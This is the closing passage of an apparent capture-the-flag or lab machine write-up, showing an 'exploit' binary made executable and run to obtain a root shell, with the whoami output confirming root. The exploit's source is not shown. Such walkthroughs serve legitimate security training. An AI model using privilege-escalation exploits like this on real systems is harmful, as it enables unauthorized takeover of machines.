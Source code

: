 We give execution permissions

```bash
chmod +x exploit
```

and run it getting a shell as root

```bash
bash-3.00$ ./exploit
sh: no job control in this shell
sh-3.00# whoami
root
```

and we would have the machine finished.

Best regards and Happy Hacking :)
